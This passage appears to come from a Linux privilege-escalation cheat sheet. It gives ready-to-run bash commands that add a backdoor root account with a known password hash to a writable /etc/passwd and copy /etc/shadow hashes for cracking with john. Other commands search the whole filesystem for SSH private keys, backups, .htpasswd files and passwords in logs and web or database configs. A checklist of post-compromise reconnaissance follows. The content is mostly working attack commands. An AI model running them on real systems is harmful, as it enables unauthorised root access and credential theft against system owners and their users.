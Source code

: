 ### Sensitive Files to Check for Weak Permissions

```bash
# Check permissions on important system files
ls -la /etc/passwd /etc/shadow /etc/group /etc/sudoers

# If /etc/passwd is writable, you can add a root user
echo 'eviluser:$1$evil$vCheOdpWJZtECzdZ1fSBq0:0:0:Evil:/root:/bin/bash' >> /etc/passwd
# Login with: eviluser:evil

# If /etc/shadow is readable, extract hashes to crack
cat /etc/shadow | grep -v ":\*:" | grep -v ":!" > hashes.txt
john --format=sha512crypt hashes.txt

# Check for SSH private keys with wrong permissions
find / -name id_rsa 2>/dev/null | xargs ls -la
find / -name "*.pem" 2>/dev/null | xargs ls -la

# Check for private backups with weak permissions
find / -name "*backup*" -o -name "*.bak" -o -name "*.old" 2>/dev/null | xargs ls -la

# Check log files for credentials or sensitive info
find /var/log -type f -readable | xargs grep -l -i "password\|user\|login\|credential"
```

### Application Configuration Files

```bash
# Common location for application configs that might contain credentials
find /etc -type f -name "*.conf" -o -name "*.cfg" -o -name "*.config" 2>/dev/null | xargs grep -l -i "password\|user\|credential"

# Check web server configs
grep -r "password\|user" /etc/apache2/ /etc/nginx/ /etc/httpd/ 2>/dev/null

# Database configuration files
grep -r "password\|user" /etc/mysql/ /etc/postgresql/ 2>/dev/null

# Find readable .htpasswd files
find / -name .htpasswd -readable 2>/dev/null

# Look for plaintext credentials in web application configs
find /var/www -type f -name "wp-config.php" -o -name "configuration.php" -o -name "config.inc.php" 2>/dev/null | xargs grep -l -i "password\|user"
```

## Methodology Checklist

### 1. Initial Reconnaissance

- [ ] Check current user (`id`, `whoami`)
- [ ] Check system info (`uname -a`, `hostname`, `cat /etc/os-release`)
- [ ] List users on the system (`cat /etc/passwd`, `ls -la /home`)
- [ ] Try using username as pass for all the users you identify on the system
- [ ] If any interesting users are present note them to try looking for their creds
- [ ] Check groups you belong to (`id`, `groups`)
- [ ] Run automated scripts (LinPEAS, LSE, LinEnum)
- [ ] Review command output for "red flags" highlighting potential vulns
- [ ] Check for root crons using pspy
- [ ] Check for setuid and capabilties files for potential abuse
